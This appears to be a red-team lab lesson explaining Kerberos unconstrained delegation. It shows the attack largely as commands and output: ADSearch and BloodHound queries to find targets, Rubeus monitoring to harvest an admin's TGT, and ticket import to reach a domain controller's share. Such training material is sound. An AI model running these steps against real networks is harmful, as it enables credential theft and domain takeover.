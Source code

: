 Delegation allows a user or a service to act on behalf of another user to another service. A common implementation of this is where a user authenticates to a front-end web application that serves a back-end database. The front-end application needs to authenticate to the back-end database (using Kerberos) as user.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/unconstrained.png)

  

We understand how a user performs Kerberos authentication to the Web Server. But how can the Web Server authenticate to the DB and perform actions as the user? Unconstrained Delegation was the first solution to this problem.

If unconstrained delegation is configured on a computer, the KDC also includes a copy of the user’s TGT inside the TGS. In this example, when the user accesses the Web Server, it extracts the user's TGT from the TGS and caches it in memory.

When the Web Server needs to access the DB Server on behalf of that user, it uses the user’s TGT to request a TGS for the database service.

An interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.

If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
    [+] samaccountname     : DC-2$
    [+] dnshostname        : dc-2.dev.cyberbotic.io
    [+] operatingsystem    : Windows Server 2016 Datacenter

    [+] samaccountname     : SRV-1$
    [+] dnshostname        : srv-1.dev.cyberbotic.io
    [+] operatingsystem    : Windows Server 2016 Datacenter
```

  

In BloodHound:

```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```

  

Domain Controllers always have unconstrained delegation configured by default and doesn't exactly represent a good privilege escalation scenario (if you've compromised a DC, you're already a Domain Admin). Other servers are good targets, such as **SRV-1** here.

If we compromise SRV-1 and wait or engineer a privileged user to interact with it, we can steal their cached TGT. Interaction can be any Kerberos service, so something as simple as `dir \\srv-1\c$` is enough.

Rubeus has a `monitor` command (requires elevation) that will continuously look for and extract new TGTs. On SRV-1:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

[*] Action: TGT Monitoring
[*] Target user     : nlamb
[*] Monitoring every 10 seconds for new TGTs
```

  

Access the console of **WKSTN-2** and do `dir \\srv-1\c$` as nlamb.

```
[*] 3/9/2021 11:33:52 AM UTC - Found new TGT:

  User                  :  nlamb@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 11:32:10 AM
  EndTime               :  3/9/2021 9:32:10 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

    doIFZz [...snip...] 5JTw==

[*] Ticket cache size: 1
```

To stop Rubeus, use Cobalt Strike `jobs` and `jobkill` commands.

Write the base64 decoded string to a `.kirbi` file on your attacking machine. Create a sacrificial logon session, pass the TGT into it and access the domain controller.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 16:49:25   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/21/2021 11:20:15   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     02/17/2021 18:50:37   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/09/2021 10:26:16   pagefile.sys
```
